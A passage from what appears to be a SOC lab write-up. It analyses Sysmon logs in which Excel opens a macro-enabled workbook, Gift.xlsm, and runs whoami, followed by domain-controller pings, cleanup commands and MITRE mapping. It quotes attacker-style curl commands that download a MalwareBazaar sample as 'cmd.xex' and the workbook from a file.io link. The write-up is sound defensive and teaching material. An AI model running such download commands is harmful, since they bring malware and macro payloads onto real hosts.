The third event repeats the same behavior sixteen seconds later. The parent process ID is still `9164`, which means the same Excel process is launching another `whoami.exe` instance. This repetition makes the activity more suspicious than a single accidental command.

Repeated user-discovery commands can indicate a script checking execution context, confirming permissions, or preparing for the next stage of activity.

#### Event 04 - Later Excel Process Repeats the Pattern

```text
TimeGenerated UTC : 5/7/2024 12:38:03.237 PM
Source            : Microsoft-Windows-Sysmon
EventID           : 1 - Process Create
User              : WIN10B\Jim
Image             : C:\Windows\System32\whoami.exe
CommandLine       : whoami
ProcessId         : 5792
ParentImage       : C:\Program Files\Microsoft Office\Root\Office16\EXCEL.EXE
ParentCommandLine : "C:\Program Files\Microsoft Office\Root\Office16\EXCEL.EXE" "C:\Users\Jim.WIN10B\Desktop\Gift.xlsm"
ParentProcessId   : 2852
```

The fourth event happens later and uses a different Excel parent process ID, `2852`. The parent command line still points to the same workbook path, so the pattern continues even after the original Excel parent process changes.

This supports the conclusion that the workbook-related activity is not a one-time artifact. The repeated Excel-to-`whoami` pattern should be treated as suspicious endpoint behavior and investigated together with the later `curl`, ping, and cleanup commands.

> The case is not built on `whoami.exe` being malicious. The case is built on how, when, and from where `whoami.exe` was launched.

### Compare Process IDs, Timing, and Parent Process Context

The process IDs and parent process IDs confirm that Sentinel is not showing the same row repeatedly. Four separate `whoami.exe` processes are visible: `6972`, `3344`, `8388`, and `5792`.



<p><sub><strong>Screenshot 016 - Changing process IDs:</strong> The repeated `whoami` executions use different process IDs, showing multiple executions rather than one static event.</sub></p>

The parent-process relationship is the strongest part of the log review. The first parent is `cmd.exe`, but the later parents are `EXCEL.EXE`. Two of the Excel-launched events share `ParentProcessId=9164`, and the later one uses `ParentProcessId=2852`, which suggests repeated workbook execution or a later Excel instance.



<p><sub><strong>Screenshot 017 - Excel parent process and parent command line:</strong> The screenshot shows `EXCEL.EXE` as the parent process and `C:\Users\Jim.WIN10B\Desktop\Gift.xlsm` in the parent command line.</sub></p>



<p><sub><strong>Screenshot 018 - Repeated whoami time sequence:</strong> Three suspicious `whoami` executions occur around 12:14 PM and 12:38 PM after the earlier baseline event.</sub></p>

The timing matters. The first `whoami` event at 7:50 AM can be interpreted as normal command-line usage, but the later events appear after `Gift.xlsm` activity and are close enough together to support a repeated discovery pattern.

### Expand the Timeline Beyond `whoami`

The deeper timeline shows more suspicious activity from the same user context. This does not prove every process is malicious, but it gives the analyst more context around the workbook and the user account.



<p><sub><strong>Screenshot 019 - Elevated command context:</strong> The command line shows `C:\Users\Jim.WIN10B\Downloads\OfficeSetup.exe` with an `ELEVATED` context and a user SID.</sub></p>

An elevated installer command is not automatically malicious, but it raises the importance of checking whether the user intentionally ran an installer, whether the file hash is trusted, and whether the elevation happened near the suspicious workbook activity.



<p><sub><strong>Screenshot 020 - OneDrive-related command:</strong> The command uses `cmd.exe /q /c del /q` to delete `C:\Users\Jim.WIN10B\AppData\Local\Microsoft\OneDrive\Update\OneDriveSetup.exe`.</sub></p>

Deleting an updater from a user profile can be legitimate maintenance or suspicious cleanup depending on timing. In this case it is reviewed because the same user timeline also contains Excel-launched discovery and downloaded files.



<p><sub><strong>Screenshot 021 - Cleanmgr autoclean command:</strong> The command shows `C:\Windows\System32\cleanmgr.exe /autoclean /d C:`, which is a cleanup action against the C drive.</sub></p>



<p><sub><strong>Screenshot 022 - CCleaner and Office process activity:</strong> The process list includes `CCleaner64.exe /MONITOR`, `CCleaner.exe /MONITOR /uac`, Microsoft Edge subprocesses, and Office activity.</sub></p>

Cleanup tools are not automatically malicious. The reason they matter here is timing and context: they appear after suspicious discovery and Office-linked execution.

### Review Internal Checks and External Downloads

This part of the timeline moves beyond user discovery and shows two additional behaviors: internal reachability checks and file downloads. Together, they matter because they can show how an operator or script checks the environment and then pulls external content onto the endpoint.

`ping` is a basic network test that sends ICMP echo requests to check whether a host responds. `curl` is a command-line transfer tool that can download content from a URL; with `-o`, the downloaded content is written to a local filename. Both tools are legitimate, but in this timeline they appear near Excel-driven discovery and downloaded Office content, so they need to be reviewed as part of the same investigation.

> A single `ping` or `curl` command can be normal. The concern here is the sequence: Excel opens `Gift.xlsm`, `whoami` runs from Excel, internal systems are checked, and external files are downloaded with command-line tools.



<p><sub><strong>Screenshot 023 - Recon and process timeline:</strong> The timeline shows `ping dc`, `ping 10.10.10.10`, `ping dc.local.course`, and `whoami` launched from `cmd.exe`.</sub></p>

The first visible group is internal reachability testing:

```text
ping dc
ping 10.10.10.10
ping dc.local.course
whoami
```

`dc` and `dc.local.course` point to a domain-controller naming pattern, while `10.10.10.10` looks like an internal lab IP address. This activity can happen during troubleshooting, but in a SOC investigation it also fits internal reconnaissance: checking whether the domain controller is reachable, whether DNS resolves the short and full names, and whether the current user context is useful for the next step.

The screenshot does not prove lateral movement by itself. It proves that the endpoint ran internal reachability checks in the same broader timeline as suspicious Excel and `whoami` activity.



<p><sub><strong>Screenshot 024 - Curl download and ping activity:</strong> The command evidence includes `curl -o cmd.xex` downloading from `bazaar.abuse.ch`, plus surrounding command-line activity.</sub></p>

The second visible group is external file transfer:

```text
curl -o cmd.xex https://bazaar.abuse.ch/download/69583b9a85076bf1690ef00fceeb77ac998a991375d8ee809ec2fa037f09f3e4/
```

The command downloads content from `bazaar.abuse.ch` and writes it locally as `cmd.xex`. This already looks suspicious: the endpoint appears to be pulling a malware sample-like object from a malware-research/sample-sharing platform and saving it under a name that resembles the legitimate Windows command interpreter `cmd.exe`.

This pattern can be read as two behaviors at the same time. The download itself maps well to [MITRE ATT&CK T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/) because an external file is being brought onto the host with `curl`. The filename choice also resembles [MITRE ATT&CK T1036 - Masquerading](https://attack.mitre.org/techniques/T1036/) because `cmd.xex` looks intentionally close to `cmd.exe`, a trusted Windows binary, while still being a different file. That is common in Trojan-style delivery: a suspicious payload is given a familiar-looking name so it blends into normal Windows activity.

`bazaar.abuse.ch` is associated with MalwareBazaar, an abuse.ch project used by malware researchers and defenders to share malware samples and related intelligence. The site itself is a legitimate research platform, but downloading from its `/download/` path means the endpoint is attempting to retrieve a sample-like object. In a normal user workstation timeline, that is a high-signal event.

The available screenshot confirms the download command, but it does not confirm whether `cmd.xex` successfully downloaded, what hash was written to disk, or whether the file executed afterward. Those points require endpoint file collection, hash review, and process execution telemetry before calling the payload confirmed malware execution.



<p><sub><strong>Screenshot 025 - VirusTotal domain detection for bazaar.abuse.ch:</strong> VirusTotal shows the `bazaar.abuse.ch` domain with a low vendor-detection count, while the community context still treats it as malware-related infrastructure.</sub></p>

The VirusTotal result should be interpreted carefully. A low detection ratio for the domain does not make the endpoint command safe, because MalwareBazaar is a known research and sample-sharing service rather than a random phishing domain. The stronger signal is the endpoint behavior: `curl` is pulling a `/download/` URL and saving it as an executable-looking file.

### Investigate `Gift.xlsm`

`Gift.xlsm` becomes one of the most important artifacts in this case because it appears repeatedly in the same endpoint timeline as `whoami`, internal network checks, `curl` downloads, and cleanup-related commands. The file extension matters: `.xlsm` is a macro-enabled Excel workbook, which means the document can contain VBA macro logic. In normal business use, macros can automate calculations or reports. In an incident investigation, the same capability is risky because macros can also launch command-line tools, download additional files, run discovery commands, or prepare the next stage of an attack.

The available evidence does not include the original `Gift.xlsm` file, its hash, or its macro source code. Because of that, the investigation cannot honestly prove what the workbook contains internally. The conclusion here is based on behavior: Excel opens the workbook multiple times, Excel is tied to repeated `whoami` execution, and the same timeline contains external downloads and internal reachability checks. That combination makes `Gift.xlsm` a strong suspect, even before static or sandbox analysis is available.



<p><sub><strong>Screenshot 026 - Repeated Gift.xlsm downloads:</strong> The screenshot shows repeated `curl` downloads associated with `Gift.xlsm`.</sub></p>

The repeated command is:

```text
curl -o Gift.xlsm https://file.io/atAOsYothaq0
```

This command tells the endpoint to download content from `file.io` and save it locally as `Gift.xlsm`. That does not automatically make `file.io` malicious. `file.io` is a temporary file-sharing service, and legitimate users can use it to transfer files. The risk comes from how it appears in this timeline: a macro-enabled workbook is being retrieved through a temporary hosting link instead of a trusted internal share, official software portal, email attachment record, or managed storage system.

Temporary file-sharing services are frequently useful to attackers because links can be short-lived, payloads can be replaced or removed, and defenders may not always have the original file by the time the alert is reviewed. In this lab, the workbook is unavailable for direct collection, so the main question becomes behavioral: why is a user endpoint downloading a macro-enabled workbook from temporary hosting, opening it through Excel, and then producing discovery-style process activity?



<p><sub><strong>Screenshot 027 - VirusTotal community context for file.io:</strong> The community notes describe `file.io` as not necessarily malicious by itself, but also mention its use as a payload-hosting or downloader location in real threat-reporting context.</sub></p>

The VirusTotal community context supports a careful interpretation. The domain itself should not be treated as malicious only because it appears in the log. At the same time, community notes connect `file.io` with payload distribution and prior reporting around malware families and intrusion activity such as DarkGate, SystemBC, Zeus, and Black Basta-related campaigns. That makes `file.io` a domain that needs context-based analysis: clean domain reputation alone is not enough when the command downloads a macro-enabled workbook during a suspicious endpoint sequence.

In this case, `file.io` is best treated as possible delivery or staging infrastructure. The downloaded object is not a harmless text file or image; it is an Office workbook format that can execute macros if the user enables content or if policy is weak. The filename `Gift.xlsm` is also socially meaningful. A "gift" themed document can be used as bait because it looks personal, unexpected, and easy for a user to open without thinking deeply about the source.



<p><sub><strong>Screenshot 028 - Gift.xlsm Excel execution timeline:</strong> Excel opens `C:\Users\Jim.WIN10B\Desktop\Gift.xlsm` multiple times around 8:32 AM, 8:51 AM, and 8:52 AM.</sub></p>

This screenshot shows that Jim's endpoint did not interact with the workbook only once. Excel opens the same workbook from the user's desktop several times. Repeated openings can happen during normal use, but here the surrounding behavior matters: the same case also contains `whoami` execution from Excel, internal host checks, and command-line downloads. For a SOC analyst, repeated Office execution makes the workbook a priority artifact because it may be the document that started or repeated the suspicious activity.

The path is also important: `C:\Users\Jim.WIN10B\Desktop\Gift.xlsm` means the workbook is in Jim's user profile rather than a protected application directory. User-profile locations are commonly used by downloaded files, email attachments, browser downloads, and manually copied files. That supports the idea that Jim likely interacted with the file as a user-level object, not as a managed enterprise application.



<p><sub><strong>Screenshot 029 - Extended Gift.xlsm timeline:</strong> The extended view shows more Excel executions of `Gift.xlsm` around 9:02 AM and 9:03 AM, followed by repeated `curl -o Gift.xlsm` downloads around 12:07 PM.</sub></p>

The extended timeline strengthens the pattern. The workbook appears earlier as an executed Office document and later as a downloaded file through `curl`. That can mean several things: the user may have re-downloaded the file, a script may have re-staged it, or another command sequence may have attempted to refresh the workbook from the temporary URL. Without the file and full command history, the exact reason cannot be proven. Still, the pattern is not clean administrative behavior. A normal user workflow usually does not require repeated command-line downloads of a macro-enabled workbook from a temporary file host.

This is why the investigation should separate two questions. First, was the domain `file.io` itself malicious? Not necessarily. Second, is this endpoint behavior suspicious? Yes. The suspicious part is the combination of temporary hosting, macro-enabled Office content, repeated execution, Excel-parented discovery, and later download activity.



<p><sub><strong>Screenshot 030 - Combined whoami and Gift.xlsm timeline:</strong> The combined timeline links Excel opening `Gift.xlsm`, `splwow64.exe`, repeated `whoami`, and later Excel execution of the same workbook.</sub></p>

This combined view is the strongest behavioral link in the case. `whoami` is a simple discovery command that prints the current user context. It is not malicious by itself. The problem is that several `whoami` events are connected to Excel and to `Gift.xlsm`. A normal spreadsheet usually has no reason to launch identity-discovery commands. Malware, droppers, and malicious macros often perform this kind of check to understand which user is running the payload, whether the session belongs to a domain user, and whether the environment is worth continuing in.

The timeline also includes `splwow64.exe`, which is a legitimate Windows process related to printing support for 32-bit applications on 64-bit systems. Its presence does not prove malicious behavior by itself. In this case it is simply part of the broader Office/process timeline. The priority remains the unusual chain: Jim opens a macro-enabled workbook, Excel appears as a parent process, discovery commands run, internal systems are checked, and external file transfers occur.

My assessment of `Gift.xlsm`: it should be treated as the likely central execution or staging artifact in Case 3. It cannot be labeled confirmed malware without collecting the workbook, extracting macros, calculating hashes, and detonating it in a controlled sandbox. However, from a SOC perspective it is suspicious enough to justify containment, file preservation, and escalation. The workbook behaves like a possible first-stage document or downloader: it is delivered from temporary hosting, opened through Excel, and associated with discovery and transfer activity.

> The conclusion is behavioral, not file-reputation based. Excel and `Gift.xlsm` appear in a suspicious chain with user discovery, internal reachability checks, external downloads, and cleanup-related activity.

### Case 3 Report

| Field | Assessment |
|-------|------------|
| Verdict | True positive suspicious endpoint activity. |
| Attack status | Credible endpoint incident requiring containment and forensic review; full compromise is not proven from the available evidence. |
| Key evidence | `WIN10B\Jim` opens `Gift.xlsm`; Excel is tied to repeated `whoami`; the timeline includes `file.io` workbook downloads, `cmd.xex` download activity from `bazaar.abuse.ch`, domain-controller checks, and cleanup-related commands. |
| Kill Chain and MITRE | Delivery, execution, and discovery. Main mappings: [T1204.002 - Malicious File](https://attack.mitre.org/techniques/T1204/002/), [T1033 - System Owner/User Discovery](https://attack.mitre.org/techniques/T1033/), [T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/), [T1036 - Masquerading](https://attack.mitre.org/techniques/T1036/), and [T1018 - Remote System Discovery](https://attack.mitre.org/techniques/T1018/). |
| Evidence limits | The original `Gift.xlsm`, macro code, workbook hash, sandbox output, `cmd.xex` hash, payload execution, credential theft, persistence, and lateral movement are not confirmed. |
| Next checks | Isolate `WIN10B`, preserve Sysmon logs, collect `Gift.xlsm` and any `cmd.xex` copy, inspect macros, review DNS/proxy/firewall logs for `file.io` and `bazaar.abuse.ch`, search for the same process chain across endpoints, and interview Jim about the file source. |
| Recommendation | Treat as a high-priority endpoint investigation, preserve evidence before cleanup, harden Office macro controls, and alert on Office-spawned commands, temporary-hosting downloads, and repeated discovery commands. |

---------

## Testing and Verification

- FortiGate evidence confirms a malicious command-injection request and identifies the source, destination, payload host, and IPS action.
- Reputation checks support the malicious classification of the command-injection infrastructure, including Mirai-related context.
- QR and PCAP validation show an ad-supported Me-QR redirect that reaches legitimate Facebook/Meta infrastructure, supporting a false-positive disposition for confirmed phishing.
- Sentinel/Sysmon evidence confirms four `whoami.exe` process-creation events, Excel parent-process context, `Gift.xlsm`, changed process IDs, repeated `file.io` workbook downloads, MalwareBazaar context, domain-controller ping checks, elevated installer context, and cleanup-related behavior.

## Final Summary

This lab demonstrates how a SOC analyst can move from alert data to supported investigation conclusions. The FortiGate case is a true-positive exploitation attempt with Mirai-related payload context, but server-side logs are required before confirming compromise. The QR email case shows how a suspicious QR redirect can become a false positive after Any.Run/sandbox and PCAP validation: the flow reaches legitimate Facebook infrastructure, while sender/header questions still require validation. The Sentinel/Sysmon case shows how field-level process telemetry changes the verdict: Jim's endpoint repeatedly opens `Gift.xlsm`, runs Excel-linked discovery, retrieves a macro-enabled workbook from `file.io`, reaches toward MalwareBazaar-style download activity, checks domain-controller targets, and shows cleanup artifacts. That full chain makes the endpoint activity suspicious even without direct access to the original workbook.

Across all three cases, the key discipline is evidence control: document what is confirmed, avoid unsupported conclusions, map behavior accurately, and define the next telemetry needed to prove or disprove impact.

## Recommendations

- Correlate FortiGate IPS logs with `web.seesec.co.il` web server logs, file-system changes, endpoint telemetry, and outbound connections before declaring successful exploitation.
- Block or monitor confirmed malicious indicators such as payload hosts and suspicious source IPs after validating business impact.
- Preserve original emails with full headers so SPF, DKIM, DMARC, Received path, URL rewriting, and click telemetry can be reviewed.
- For QR cases, confirm sender identity and campaign ownership before blocking known educational domains; classify ad-supported redirect services separately from credential-harvesting phishing.
- Treat Office-spawned command execution as high priority when it appears with macro-enabled files, downloads, account discovery, network reachability checks, or cleanup tools.
- Search across the environment for the same IP addresses, URLs, filenames, hashes, parent-process chains, and command-line patterns.
- Use the cases to improve IPS prevention tuning, mail-security filtering, QR-phishing awareness, Office macro controls, and endpoint process monitoring.

## Skills Demonstrated

- SOC alert triage
- FortiGate IPS log interpretation
- Command-injection analysis
- Threat-intelligence enrichment
- QR phishing investigation
- Microsoft Sentinel KQL
- Sysmon process telemetry review
- IOC extraction
- MITRE ATT&CK mapping
- Incident-response recommendation writing

## Repository Structure

```text
quishing-soc-alert-investigation-lab/
|-- README.md
|-- LICENSE
|-- IMAGE_MANIFEST.md
|-- docs/
|   |-- fortigate-command-injection-log.csv
|   |-- indicators.md
|   |-- quishing-network-evidence.md
|   `-- queries.md
`-- images/
    |-- 01-command-injection/
    |-- 02-quishing/
    |-- 03-sentinel-sysmon/
    `-- 99-source-context/
```
